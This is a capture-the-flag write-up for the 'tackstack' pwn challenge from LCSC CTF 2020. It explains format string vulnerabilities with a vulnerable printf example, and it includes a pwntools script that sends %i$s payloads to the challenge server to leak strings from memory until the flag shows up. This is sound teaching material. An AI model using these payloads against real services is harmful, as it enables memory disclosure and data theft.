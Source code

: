 ```yaml
---
layout: writeup
title:  "tackstack"
date:   2020-04-04 17:10:05 +0200
event: "LCSC CTF 2020"
categories: [writeup]
image: img/chall.png
ctf_categories: [pwn, format string]
author: "punshLineLama"
---
```

# tackstack

## TL;DR
 Exploit format string vuln, by dumping all strings from memory with the `%i$s`, for i in range(1,100).

## Description
The challenge was in the binary exploitation category, gave 100 points and had the following description:
```
Have you ever played Jenga? Tack Stack is like that game, but with tacks!

Connect with:
nc jh2i.com 50038
```

When connection to the server, there is a prompt, asking for data.
```
========================
|       TACKSTACK      |
========================


Welcome to TackStack!
How to play:
  * Stack your tacks!
Ready? Go!

Your tack:
```
When entering data, it was echoed back by the server. The first thing I checked, was if there is a format string vulnerability.

Thus I tested my hypothesis:
```
Your tack: %x%x
------------------------
|                      |
    4030bef273b780
|                      |
------------------------
```
We see that we get some values from the stack.

A format string vulnerability occurs in C, when the program prints a user-controlled buffer without the right formatting. E.g.:

```c

char str1[20];

printf("Gimme data: ");
scanf("%s", str1);

//Correct/safe way:
printf("%s\n", str1);

//False/vulnerable way:
printf(str1);

```

When there are format string parameters in the first argument of `printf` it pops arguments from the stack and displays them.


## Exploiting the Service

We can use this to dump all the strings from the program memory, starting from the stack by using the %s format string.

To print the i^th string on the stack, we can use the following format string: `%i$s`.
Now we just need to loop for n in [1..100] to and grep the flag.
Thus a little python script which does exactly this.


```python
from pwn import *

ret = ""
for i in range(1,100):
  #start remote connection
	p = remote("jh2i.com", 50038)
  #read from connection
	ret = p.recvuntil("tack: ")
  #send format string
	p.sendline("%"+str(i)+"$s")
  #check if crashed, and read the output
	try:
		ret = p.recvuntil("tack: ")
	except:
		print("crashed")
  # If we got the flag, print it and break the loop
	if("LLS{" in ret):
		print(ret)
		break
  #else close connection and restart the loop
	p.close()
```

Just wait a few iterations, and there we go, we get our flag:

```
Your tack:
------------------------
|                      |
    FLAG=LLS{tack_stack?_more_like_stack_attack}
|                      |
------------------------
```
